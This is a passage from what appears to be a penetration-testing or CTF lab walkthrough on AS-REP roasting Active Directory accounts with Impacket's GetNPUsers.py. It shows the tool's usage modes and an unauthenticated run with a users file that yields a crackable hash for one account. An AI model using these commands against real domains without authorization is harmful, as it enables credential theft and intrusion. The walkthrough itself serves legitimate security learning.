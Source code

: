 Nice! Time to check if any of those usernames is ASRepRoasteable!

###### Exploiting ASRepRoasteable users
[Impacket](https://github.com/SecureAuthCorp/impacket) is a collection of open-source tools for working with network protocols. Impacket's scripts come by default on security-oriented distros like Parrot and Kali. However, installing them is just a matter of cloning the repository if you are using any other distro.

Impacket-collection is a must-have for pentesting Active Directory. You can get more information on what every tool does by having a look at [this link](https://www.secureauth.com/labs/open-source-tools/impacket/).

For ASRepRoasting, we have to use **impacket-GetNPUsers.py** script. 

By typing `impacket-GetNPUsers.py` we can get a help message:

![[11getnpusers.png]]


```
There are a few modes for using this script

1. Get a TGT for a user:

        GetNPUsers.py contoso.com/john.doe -no-pass

For this operation you don't need john.doe's password. It is important tho, to specify -no-pass in the script, 
otherwise a badpwdcount entry will be added to the user

2. Get a list of users with UF_DONT_REQUIRE_PREAUTH set

        GetNPUsers.py contoso.com/emily:password or GetNPUsers.py contoso.com/emily

This will list all the users in the contoso.com domain that have UF_DONT_REQUIRE_PREAUTH set. 
However it will require you to have emily's password. (If you don't specify it, it will be asked by the script)

3. Request TGTs for all users

        GetNPUsers.py contoso.com/emily:password -request or GetNPUsers.py contoso.com/emily

4. Request TGTs for users in a file

        GetNPUsers.py contoso.com/ -no-pass -usersfile users.txt

For this operation you don't need credentials.

```

We don't have any credentials yet, so we can only go for the 4th option.

![[12verstappenvulnerable.png]]

And we see that it returns 2 remarkable things:
1. M.Verstappen's AS-REP hash, which is easily crackable by John or Hashcat!
2. L.Hamilton is not vulnerable to ASRepRoasting attack. This is because he doesn't have **DONT_REQ_PREAUTH** set.
